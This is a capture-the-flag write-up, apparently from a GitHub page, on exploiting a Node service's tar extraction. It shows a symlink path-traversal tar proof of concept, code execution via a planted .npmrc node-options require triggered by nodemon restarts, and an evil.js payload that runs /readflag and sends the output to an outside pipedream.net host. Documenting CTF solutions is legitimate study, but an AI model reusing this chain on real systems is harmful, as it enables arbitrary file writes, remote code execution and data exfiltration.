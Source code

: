 ```bash
#!/bin/sh

rm n\\x

ln -s / n\\x # Create a link to the destination dir
tar cf poc.tar n\\x # Pack the link into the tar

echo "test" > n\\x/app/data/test
tar rf poc.tar n\\x n\\x/app/data/test

gzip -9 < poc.tar > poc.tar.gz
rm poc.tar
mv poc.tar.gz poc.tar
```

After completing this step, it is possible to list directories arbitrarily and write files arbitrarily. There is a `/readflag` in the root directory, indicating the need for command execution.

From the `Dockerfile`, we can see that our user is `node`, and there are hardly any places with write permissions. Also, except for `/app/data`, the `app` directory does not have write permission. Observing the startup parameters, `nodemon --exec npm start`, is somewhat odd. Research reveals that `nodemon` is a development tool that automatically restarts `node` when files are created or changed in the `/app` directory. Therefore, we can also write a configuration file in the user's folder, which will be loaded when `node` is restarted. We noticed that the service is started using `npm start`, so we can cause `RCE` by writing to the `NODE_OPTIONS` parameter in `~/.npmrc`.

```bash
echo "node-options='--require /home/node/evil.js'" > /home/node/.npmrc
```

Then, write a `.js` file to `/app/data`, which triggers `nodemon` to restart `node`, thereby causing `evil.js` to be executed. The purpose of `nodemon` is mainly for convenience during the competition. In practice, it is highly unlikely for someone to use `nodemon` to start production services. Nevertheless, we can still write files first and then wait patiently until the service restarts and the command is executed. In a `Docker` container with a configured restart strategy, you can also force a restart by crashing the service.


# Generate Tar
```
mkdir /home/node
ln -s /home/node/ n\\x
tar cf exp.tar n\\x
echo "node-options='--require /home/node/evil.js'" > n\\x/.npmrc
echo "const execSync = require('child_process').execSync;const http = require('http');const output = execSync('/readflag', { encoding: 'utf-8' });http.get('http://ent9hso2vt0z.x.pipedream.net/?'+output);" > n\\x/evil.js
echo "dummy" > test.js
tar rf exp.tar n\\x n\\x/.npmrc n\\x/evil.js test.js
```

# Compress
```
gzip -9 < exp.tar > exp.tar.gz
mv exp.tar.gz exp.tar
```
